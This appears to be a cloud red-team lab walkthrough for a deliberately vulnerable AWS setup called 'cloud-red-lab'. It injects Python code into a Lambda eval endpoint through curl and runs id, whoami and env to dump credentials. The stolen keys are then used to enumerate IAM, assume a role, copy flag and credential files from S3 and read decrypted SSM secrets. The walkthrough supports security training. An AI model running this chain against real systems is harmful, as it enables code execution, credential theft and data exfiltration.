

# Initial Access

```bash
# Set the lambda URL
export LAMBDA_URL=''

# Set the credentials.
curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"2+2"}' 
```


Command Execution payload: `__import__(\"os\").popen(\"id\").read()`

```bash
curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"id\").read()"}' 

curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"whoami\").read()"}' 
```


```bash
curl -s -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"env\").read()"}' | jq '.result' | sed 's/\\n/\n/g'
```


```bash
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=
```


```bash
aws sts get-caller-identity
```



# Enumeration

```bash
# Fetches a list of all IAM roles in your AWS account
aws iam list-roles

aws iam list-roles --query 'Roles[].{Name:RoleName,ARN:Arn}' --output table
```


```bash
# Fetches complete details about the role named cloud-red-lab-s3-reader
aws iam get-role --role-name cloud-red-lab-s3-reader
```


```bash
# Lists managed policies attached to the given role.
# “Managed” means they are standalone IAM policies that can be attached to multiple roles/users/groups.
aws iam list-attached-role-policies --role-name cloud-red-lab-s3-reader --output json

# List inline policies for a role.
aws iam list-role-policies --role-name cloud-red-lab-s3-reader --output json
```


> Task: Read the policy for cloud-red-lab-lambda-role

```bash
# Fetches metadata about the managed policy (not the policy content yet).
aws iam get-policy --policy-arn arn:aws:iam::097564616454:policy/cloud-red-lab-s3-reader-policy

# Retrieves the actual policy document (JSON) for the specified version (v1 in this case).
aws iam get-policy-version --policy-arn arn:aws:iam::097564616454:policy/cloud-red-lab-s3-reader-policy --version-id v1
```


# Lateral Movement and Privilege Escalation

```bash
# Assume a role using its ARN
aws sts assume-role --role-arn "$ROLE_ARN" --role-session-name 'student-lab' --duration-seconds 1800
```


```bash
# Set the Short Term Credentials
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=

# Verify the identity of the caller
aws sts get-caller-identity
```


# Data Exfiltration

```bash
# List files on the s3 bucket
aws s3 ls s3://cloud-red-lab-internal-5975a1/

# Copy files from the s3 bucket to the local machine.
aws s3 cp s3://cloud-red-lab-internal-5975a1/flag2.txt .
aws s3 cp s3://cloud-red-lab-internal-5975a1/secret_reader_creds.txt .
```


# Persistence

```bash
# Set the Short Term Credentials
export AWS_ACCESS_KEY_ID=
export AWS_SESSION_TOKEN=

# Verify the identity of the caller
aws sts get-caller-identity
```


# Extracting Crown Jewel

```bash
# This command lists metadata about SSM parameters in your AWS account
aws ssm describe-parameters
```


```bash
# retrieves the value of a Systems Manager parameter (optionally decrypted if it’s a SecureString).
aws ssm get-parameter --name "/cloud-red-lab/flag3" --with-decryption
aws ssm get-parameter --name "/cloud-red-lab/db/username" --with-decryption
aws ssm get-parameter --name "/cloud-red-lab/db/password" --with-decryption
```


```bash
#aws rds describe-db-instances lists detailed information about all RDS database instances in your AWS account (like endpoint, engine, status, and storage) in JSON format.
aws rds describe-db-instances --output json
```


Final Task: Connect to the DB and get the flag.
